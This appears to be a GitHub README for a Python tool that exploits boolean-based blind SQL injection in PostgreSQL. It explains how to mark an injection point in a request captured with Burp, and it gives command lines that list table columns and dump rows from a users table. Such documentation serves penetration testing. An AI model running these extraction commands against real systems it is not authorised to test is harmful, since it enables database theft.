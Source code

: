 # sqlinjector
A tool to exploit Boolean-based Blind SQL injections in PostgreSQL.
It allows to extract columns of one/several tables and dump the content of them.

Steps to make it work
---------------------
1. Once you have the vulnerable request in Burp, right click on it and select Copy to file.
2. Open the .sql file and insert the mark [INJ] in the injection point
```json
{"additionalInfo":{"libraryName":"template","templateType":"49[INJ]"},"paginationInfo":{"pageIndex":1,"recordsPerPage":"10","sortField":"templateName"}}
```

Example:
--------
*This will perform the following query: SELECT (user_table_cols) FROM dummy_db.users WHERE user_modified='John'
```bash
python sqli.py -D dummy_db -T users -FF user_table_cols.txt -W "user_modified='John'" -R request.sql --dump
```

*This will show the columns tables of the table user of the current database
```bash
python sqli.py -T users -R request.sql --cols
```

*This will show the columns tables of the tables specified in the file, of the current database
```bash
python sqli.py -TF table_names.txt -R request.sql --cols
```

Pending:
--------
- Dump database names
- Dump table names
- Extend funcitionality to Time-based SQLi
- Add MySQL support
- Add multithreading

